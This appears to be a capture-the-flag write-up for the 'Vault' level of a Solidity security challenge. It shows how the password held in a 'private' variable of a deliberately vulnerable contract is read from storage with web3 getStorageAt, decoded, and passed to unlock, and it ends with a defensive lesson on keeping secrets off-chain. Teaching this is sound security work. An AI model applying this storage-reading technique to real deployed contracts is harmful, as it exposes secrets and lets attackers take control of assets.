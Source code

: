 # 08. Vault
<sup>Difficulty 3/10</sup>

Unlock the vault to pass the level!

## Solution

To unlock the vault we need to exploit the function `unlock`:

```solidity
function unlock(bytes32 _password) public {
    if (password == _password) {
        locked = false;
    }
}
```

But we need to know the password, which, luckily is an internal variable:

```solidity
bytes32 private password;

constructor(bytes32 _password) public {
    locked = true;
    password = _password;
}
```

Everything on the blockchain (including private state variables) is public!

We need to extrapolate and read the password value.

Via `web3.eth.getStorageAt(address, position [, defaultBlock] [, callback])` function (see [web3 docs](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)) we can get a variable off the `address` at given `position`. 
In solidity the variable are indexed in position order, so, according to the declaration order, we have the following indexes:

| Index | Variable |
|:------|:---------|
| 0     | locked   |
| 1     | password |

Hence, first we get the password value:

```javascript
await web3.eth.getStorageAt(contract.address, 1)
// -> '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
// For reference sake only:
await web3.eth.getStorageAt(contract.address, 0)
// -> '0x0000000000000000000000000000000000000000000000000000000000000001' == true
```

Now we got the password byte-encoded we could already complete the challenge, but first let's decode it and then unlock the vault:

```javascript
const decodedPass = web3.utils.hexToAscii(encodedPass)
console.log(decodedPass)
// -> 'A very strong secret password :)'
await contract.locked()
// -> true
await contract.unlock(encodedPass)
await contract.locked()
// -> false
```

Note that we don't need decoded password as the `unlock` function requires a `bytes32` and not a `string`

## OZ Corner

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.

